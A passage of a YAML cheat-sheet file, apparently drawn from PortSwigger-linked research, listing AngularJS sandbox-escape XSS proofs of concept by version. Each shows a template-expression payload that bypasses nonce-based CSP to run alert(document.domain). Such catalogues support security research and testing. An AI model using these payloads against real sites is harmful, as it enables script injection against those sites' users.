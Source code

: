 ```yaml
      - twitter:garethheyes
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.3.18/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'a'.constructor.prototype.charAt=[].join;$eval('x=alert(document.domain)//');}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.3.0:
    authors:
      - twitter:molnar_g
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.3.0/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{!ready && (ready = true) && ( !call ? $$watchers[0].get(toString.constructor.prototype) : (a = apply) && (apply = constructor) && (valueOf = call) && (''+''.toString( 'F = Function.prototype;' + 'F.apply = F.a;' + 'delete F.a;' + 'delete F.valueOf;' + 'alert(document.domain);' )));}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.2.19-1.2.23:
    authors:
      - twitter:avlidienbrunn
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
```